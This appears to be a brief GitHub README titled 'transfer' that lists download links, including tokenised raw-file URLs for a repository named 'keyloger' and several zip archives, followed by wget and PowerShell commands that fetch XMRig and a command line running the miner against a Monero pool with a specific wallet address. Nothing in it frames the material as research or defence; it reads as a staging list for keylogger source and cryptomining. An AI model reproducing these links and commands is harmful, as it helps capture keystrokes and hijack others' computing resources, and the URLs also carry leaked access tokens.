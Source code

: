 # transfer

https://drive.google.com/file/d/16wLPMsuBvZqaU5ZDeELPVCoBJHaalfR0/view?usp=drivesdkhttps://codeload.github.com/lucatana/pytelepub/zip/main?token=ASTM5UPX77HQJAYDI4RIT23ACBKLC
https://raw.githubusercontent.com/Imper927/keyloger/master/KeyloggerFunctions.h?token=ALATRBR7QOVLY2J57DY7BHDACEKU2
https://raw.githubusercontent.com/Imper927/keyloger/master/Source.cpp?token=ALATRBTUCYB7MLMJPL42JULACELQG
https://raw.githubusercontent.com/Imper927/keyloger/master/KeyloggerFunctions.h?token=ALATRBRHNMQPZ5LCUKHXEC3ACELYI
https://raw.githubusercontent.com/Imper927/keyloger/master/Source.cpp?token=ALATRBSK7DZLR2JOK6F3Y3LACK43Y
https://github.com/Imper927/pytelepub/raw/master/python_nod_noautoinstall.zip
https://drive.google.com/file/d/1JtlKC68Wr8Ub32V0OOoAIruOS0ONWlvd/view?usp=drivesdk

wget https://github.com/xmrig/xmrig/archive/refs/heads/master.zip

Invoke-WebRequest https://github.com/xmrig/xmrig/archive/refs/heads/master.zip

./name -o pool.supportxmr.com:3333 -u 43xJcP3LMskbmEsMdGJ6V9JnoZFSHfhnBXCUjngKAPSf5BfuicYr8Wae4YvCTuKxVxga8RWGut8T8UP9YrsRmBDyQnr9Vwu --coin monero --opencl
